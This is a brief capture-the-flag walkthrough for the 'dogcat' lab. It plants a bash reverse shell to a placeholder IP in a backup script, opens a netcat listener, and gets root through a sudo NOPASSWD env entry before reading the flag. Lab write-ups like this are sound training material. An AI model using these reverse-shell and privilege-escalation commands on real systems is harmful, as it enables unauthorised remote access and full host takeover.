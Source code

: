## Get reverse shell in Docker 

### In dogcat shell
```bash
cd /opt/backups
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/<YOUR_IP>/9595 0>&1'" >> backup.sh
```

### In Kali
nc -nvlp 9595

## Recon
```bash
sudo -l
(root) NOPASSWD: /usr/bin/env
```
### Privesc
``sudo /usr/bin/env /bin/bash``

### Flag
``cat /root/flag3.txt``